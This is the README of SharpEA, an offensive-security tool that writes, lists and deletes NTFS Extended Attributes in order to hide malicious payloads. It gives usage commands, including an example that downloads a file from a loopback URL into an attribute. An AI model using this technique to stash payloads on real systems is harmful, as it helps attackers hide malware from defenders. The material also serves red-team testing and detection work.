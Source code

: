 # SharpEA

Read, write and delete Extended Attributes (EAs) to hide malicious payloads within NTFS filesystems.

### List EAs

```
SharpEA.exe list FILE_PATH
```

Example:

```
SharpEA.exe list c:\Windows\System32\kernel32.dll
```

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/sharpea-screenshots/Screenshot_1.png)


### Write EA

The payload can be a string, a hexadecimal value or a url to download a file:

```
SharpEA.exe write FILE_PATH EA_NAME PAYLOAD
```

Example using a string:

```
SharpEA.exe write c:\Temp\test.txt EA_name1 RandomString
```

Example using a hexadecimal value (payload starts with "0x..."):

```
SharpEA.exe write c:\Temp\test.txt EA_name2 0x4142434445
```

Example using the content of a downloaded file (payload starts with "http..." or "https..."):

```
SharpEA.exe write c:\Temp\test.txt EA_name3 http://127.0.0.1:8000/a.bin
```

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/sharpea-screenshots/Screenshot_2.png)


### Delete specific EA

```
SharpEA.exe delete FILE_PATH EA_NAME
```

Example:

```
SharpEA.exe delete c:\Temp\test.txt EA_name1
```


![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/sharpea-screenshots/Screenshot_3.png)



### Clear all EAs

```
SharpEA.exe clear FILE_PATH
```

Example:

```
SharpEA.exe clear c:\Temp\test.txt
```


![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/sharpea-screenshots/Screenshot_4.png)



--------------------------------------------------------

### Credits

This is based on C++ code from Sektor7's [Malware Development Advanced - Vol.1 course](https://institute.sektor7.net/rto-maldev-adv1).
